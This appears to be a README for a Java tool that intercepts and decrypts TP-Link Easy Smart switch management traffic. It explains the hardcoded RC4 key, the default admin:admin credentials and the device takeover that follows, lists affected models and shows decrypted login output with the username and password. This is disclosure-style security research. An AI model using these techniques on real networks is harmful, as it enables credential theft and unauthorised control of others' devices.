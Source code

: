 ## Running the tool
Compile: `javac src/Intercept.java`

Run: `java Intercept`

## Why is it possible to intercept the management traffic?
- The traffic goes over broadcast.
- The traffic is encrypted using RC4 with a fixed key located *hardcoded* in the "Easy Smart Configuration Utility"

## Is it possible to configure foreign devices?
Yes, after intercepting or bruteforcing the password (default is admin:admin on all devices, the maximum password length is 16) without any restrictions.

##Package
`<header>[<type><length><value>]`  
The body may contain more than one data block called "TLV".

##General communications
The password is transmitted on each configuration change request.

##List of possibly affected devices
- TL-SG1024DE 1.0
- TL-SG1024DE 2.0
- TL-SG1016DE 1.0
- TL-SG1016DE 2.0
- TL-SG108E 1.0
- TL-SG108E 2.0
- TL-SG105E 1.0
- TL-SG105E 2.0
- TL-SG108PE 1.0

##Sample output for a login

	===NEW PACKET ON PORT 29809 FROM /172.19.79.55
	Decrypted data:
	 Version:1
	 OPCODE:3
	 MAC:F4F26DD27F12
	 HOST MAC:080027D3524B
	 SEQUENCE NUMBER:618
	 ERROR CODE (7 or 8 are somehow bad):0
	 LENGTH:56
	 FRAGMENT OFFSET:0
	 TOKEN ID:27750
	 CHECKSUM (apparently not implemented):0
	  BODY:
	 -START TLV-
	  TYPE:512 (Username)
	  LENGTH:6
	  BODY:61646D696E00 (admin::StringType)
	 -START TLV-
	  TYPE:514 (Password)
	  LENGTH:6
	  BODY:61646D696E00 (admin::StringType)
	 -START TLV-
	  TYPE:-1 (Unknown)
	  LENGTH:0
	  BODY: (::unknown)
	  RAW: 0103F4F26DD27F12080027D3524B026A000000000038000000006C66000000000200000661646D696E000202000661646D696E00FFFF0000